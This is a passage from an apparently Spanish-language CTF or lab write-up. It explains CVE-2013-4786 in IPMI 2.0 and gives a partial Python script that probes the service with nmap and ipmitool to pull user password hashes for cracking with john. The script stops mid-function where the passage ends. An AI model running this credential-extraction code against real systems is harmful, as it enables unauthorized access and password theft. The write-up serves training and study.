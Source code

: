## Foothold

* * *

Observamos que es vulnerable el servicio **Intelligent Platform Management Interface IPMI 2.0** y para ello existe una vulnerabilidad que nos permite autenticarnos con cualquier usuario y extraer contraseñas hash de usuarios **_(CVE-2013-4786)_**

Para ello podemos usar `metasploit` pero a manera de prácticar hice un script en `python` con algunas referencias para conseguir un usuario existente, extraer su **token** y crackearlo con `john`:

```python
#!/usr/bin/python3

import signal, sys, os, time, nmap, pdb, shlex, subprocess, re
from colorama import Fore, init

# reset to dafault color
init(autoreset=True)

# colors
red, yellow, magenta, green = Fore.RED, Fore.YELLOW, Fore.MAGENTA, Fore.GREEN 

# help
def help_panel():
    print(f"\n{magenta}[*] Use : {yellow}{sys.argv[0]} <target> <password_wordlist>")
    sys.exit()

if len(sys.argv) != 3: help_panel() 

def signal_handler(signum, frame):
    print("\nSignum : {} , Frame : {}".format(signum, frame))
    print("\n{red}[!] Exiting...")
    exit(1)

#ctrl + c
signal.signal(signal.SIGINT, signal_handler)

# check connection
def checkConnection(target, port):
    print(f"\n{yellow}[+] Checking if port {magenta}{port} {yellow}is open...")
    time.sleep(2)
    scanning = nmap.PortScanner()
    result = scanning.scan(target, port, arguments='-sU')
    if result['scan'] == {} or result['scan'][target]['udp'][int(port)]['state'] == 'closed':
        print(f"\n{red}[-] Port {magenta}{port} {red}is closed!")
        sys.exit()

# check parameters
def checkParameters(target, port, user, wordlist):
    print(f"\n{yellow}[+] Using a list of {magenta}users {yellow}by default...")
    time.sleep(1)
    if wordlist:
        if not os.path.isfile(wordlist):
            print(f"\n{red}[!] The password wordlist {magenta}{wordlist} {red}is invalid ***")
            sys.exit()

# extract user hash
def getUserHash(target, port, user):
    i = 0
    for u in user:
        output = subprocess.run(shlex.split(f"ipmitool -I lanplus -H {target} -U {u} -P password -vvv 2>&1"), capture_output=True)
        stderr, stdout = output.stderr.decode(), output.stdout.decode()
```